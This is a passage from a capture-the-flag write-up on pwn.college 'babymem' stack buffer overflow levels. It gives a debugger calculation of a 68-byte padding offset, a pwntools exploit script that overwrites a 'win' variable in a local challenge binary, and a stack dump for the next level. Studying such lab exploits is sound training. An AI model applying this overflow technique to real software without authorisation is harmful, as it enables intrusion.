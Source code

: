 * The location of the win variable is `0x7ffc615eec14`.
* So we have all the information we need:
  * [x] Location of buffer: `0x7fff4cbdb280`.
  * [x] Location of win variable: `0x7fff4cbdb2c4`.
* Let's find the distance between the buffer and win variable in order to get the length of our payload padding.

```
gef➤  p/d 0x7fff4cbdb2c4 - 0x7fff4cbdb280
$3 = 68
```

* We are all set to craft our payload.

```python
from pwn import *

padding = b'A' * 68
payload = padding + p64(0x42424242)

p = process('/challenge/babymem_level1.1')
p.recvuntil('size:')
p.sendline('200')

p.recvuntil('bytes)!')
p.send(payload)
p.interactive()
```



## level 2.0

> Overflow a buffer on the stack to set trickier conditions to obtain the flag!

{% code fullWidth="false" %}
```
	    +---------------------------------+-------------------------+--------------------+
	    |                  Stack location |            Data (bytes) |      Data (LE int) |
	    +---------------------------------+-------------------------+--------------------+
esp ------> | 0x00007fff85a4bc80 (rsp+0x0000) | a0 e6 1b 00 00 00 00 00 | 0x00000000001be6a0 |
            | 0x00007fff85a4bc88 (rsp+0x0008) | 78 ce a4 85 ff 7f 00 00 | 0x00007fff85a4ce78 |
	    | 0x00007fff85a4bc90 (rsp+0x0010) | 68 ce a4 85 ff 7f 00 00 | 0x00007fff85a4ce68 |
	    | 0x00007fff85a4bc98 (rsp+0x0018) | 23 57 70 85 01 00 00 00 | 0x0000000185705723 |
	    | 0x00007fff85a4bca0 (rsp+0x0020) | 68 0d 00 00 00 00 00 00 | 0x0000000000000d68 |
	    | 0x00007fff85a4bca8 (rsp+0x0028) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
	    | 0x00007fff85a4bcb0 (rsp+0x0030) | c0 bc a4 85 ff 7f 00 00 | 0x00007fff85a4bcc0 | <------ *buff
	    | 0x00007fff85a4bcb8 (rsp+0x0038) | 18 bd a4 85 ff 7f 00 00 | 0x00007fff85a4bd18 | <------ *win
	    | 0x00007fff85a4bcc0 (rsp+0x0040) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 | \
	    | 0x00007fff85a4bcc8 (rsp+0x0048) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |  \
            | 0x00007fff85a4bcd0 (rsp+0x0050) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
            | 0x00007fff85a4bcd8 (rsp+0x0058) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
	    | 0x00007fff85a4bce0 (rsp+0x0060) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
	    | 0x00007fff85a4bce8 (rsp+0x0068) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |---- buffer
	    | 0x00007fff85a4bcf0 (rsp+0x0070) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
	    | 0x00007fff85a4bcf8 (rsp+0x0078) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
	    | 0x00007fff85a4bd00 (rsp+0x0080) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
	    | 0x00007fff85a4bd08 (rsp+0x0088) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |  /
            | 0x00007fff85a4bd10 (rsp+0x0090) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 | /
	    | 0x00007fff85a4bd18 (rsp+0x0098) | 00 00 00 00 31 56 00 00 | 0x0000563100000000 | <------ win
	    | 0x00007fff85a4bd20 (rsp+0x00a0) | 70 cd a4 85 ff 7f 00 00 | 0x00007fff85a4cd70 |
            | 0x00007fff85a4bd28 (rsp+0x00a8) | 00 c3 81 59 29 d1 5f cb | 0xcb5fd1295981c300 |
```